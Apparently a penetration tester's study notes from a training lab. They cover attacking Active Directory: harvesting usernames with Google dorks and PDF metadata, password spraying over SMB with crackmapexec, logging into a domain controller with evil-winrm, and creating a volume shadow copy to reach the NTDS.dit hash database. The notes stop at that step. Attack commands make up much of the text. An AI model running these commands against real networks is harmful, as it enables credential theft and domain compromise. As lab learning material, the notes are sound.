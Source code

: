 # Dictionary Attacks against AD accounts using CrackMapExec

-> Identify Username Convention	: jdoe , jjdoe , doe.jane , ...

get some valid email from google using the domain name of the target :
“@inlanefreight.com”

google dorks :
“inlanefreight.com filetype:pdf”
-> find some valid usernames in the PDF properties

## Creating a Custom list of Usernames
cat usernames.txt (manually)
OR
./username-anarchy -i /home/names.txt (automatically)

## Launching the Attack with CrackMapExec

crackmapexec smb $TARGET -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/fasttrack.txt : list of commonly used passwords

# Capturing NTDS.dit

NTDS.dit file is stored at %systemroot$/ntds on the domain controllers in a forest

.dit stands for directory information tree.

This is the primary database file associated with AD which stores :
- domain usernames
- password hashes
- other critical schema information

## Connecting to a DC with Evil-WinRM

evil-winrm -i $TARGET -u bwilliamson -p 'P@55w0rd!'

## Checking Local Group Membership

net localgroup

## Checking User Account Privileges including Domain

net user bwilliamson

## Creating Shadow Copy of C:

vssadmin CREATE SHADOW /For=C:

-> C: is the default location of NTDS but it is possible to change the location
